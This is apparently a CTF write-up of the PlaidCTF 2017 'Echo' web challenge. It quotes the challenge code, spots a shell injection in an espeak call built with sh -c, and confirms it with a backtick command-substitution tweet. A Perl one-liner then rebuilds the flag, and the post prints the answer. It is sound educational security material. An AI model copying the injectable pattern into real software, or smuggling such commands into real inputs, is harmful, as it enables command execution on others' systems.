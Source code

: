 ```yaml
---
title: "PlaidCTF 2017 - Echo (web 200) Writeup"
slug: "plaidctf-2017-echo-web-200-writeup"
date: "2017-04-23 18:31:40.265798"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


This challenge presents a webpage with the text "Tweets are 140 characters only!" and input boxes for four tweets. Submitting tweets gives you a page with wav files, one per tweet that contains a text to speech version of the tweet.

The source code for the web front-end was provided. Examining it, you see that the tweets are written to a file:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=85}
     with open(my_path + "input" ,"w") as f:
         f.write('\n'.join(tweets))
```

Also, a flag is expanded and written to a file. This creates a large file (65000b per character of the flag) that needs to be acquired completely to get the flag.


```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=25}
def process_flag (outfile):
    with open(outfile,'w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            f.write(towrite + chr(c ^ ord(x)))
    return
```

Both of these files are passed to a docker container:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=10}
docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=94}
   subprocess.call(docker_cmd.format(path=my_path).split())
```

Finally, the dockerized process must generate the wav files, because they're then converted back in our python code:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=11}
convert_cmd = "ffmpeg -i {in_path} -codec:a libmp3lame -qscale:a 2 {out_path}"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=43}
    for i in range(n):
        st = os.stat(path + str(i+1) + ".wav")
        if st.st_size < 5242880:
            subprocess.call (convert_cmd.format(in_path=path + str(i+1) + ".wav",
                                         out_path=target_path + str(i+1) + ".wav").split())
```

So, first step is to get the run.py that is executed in docker. I chose to extract it from the image without actually creating a container. I'm not very well-versed in Docker, so there may be an easier way to do this:

```bash
docker pull lumjjb/echo_container
docker save lumjjb/echo_container > echo.tar
tar xvf echo.tar
for l in */layer.tar ; do echo $l ; tar tvf $l ; done | less
tar xvf 8f*/layer.tar run.py
```

That gives us:

```python {title="run.py",linenos=table}
import sys
from subprocess import call

import signal
import os
def handler(signum, frame):
    os._exit(-1)

signal.signal(signal.SIGALRM, handler)
signal.alarm(30)


INPUT_FILE="/share/input"
OUTPUT_PATH="/share/out/"

def just_saying (fname):
    with open(fname) as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1

            if i == 5:
                break

            l = l.strip()

            # Do TTS into mp3 file into output path
            call(["sh","-c",
                "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])
```

A quick glance at that shows that it's vulnerable to shell injection in the call to espeak. Submitting a tweet with of `\`pwd\`` (using backticks) returns an audio of "slash", confirming.

Since the audio is converted by ffmpeg, we can't just cat the flag file into the output wav files. Instead, I chose to reconstruct the flag within the docker image. After confirming that the docker environment had Perl available, I was off to do some golfing, eventually working up to:

```
perl -e 'local$/;$a=<>;$f[$_/65000]^=ord(substr($a,$_,1))for(0..length($a)-1);print join"-",@f' share/flag
```

This one-liner reconstructs the flag and prints the decimal ASCII values of each character. Manually transcribed from the audio, it gives:

```
80-67-84-70-123-76-49-53-115-116-51-110-95-84-48-95-95-114-101-101-101-95-114-101-101-101-101-101-101-95-114-101-101-101-95-108-97-125
```

which decodes to:

```
PCTF{L15st3n_T0__reee_reeeeee_reee_la}
```
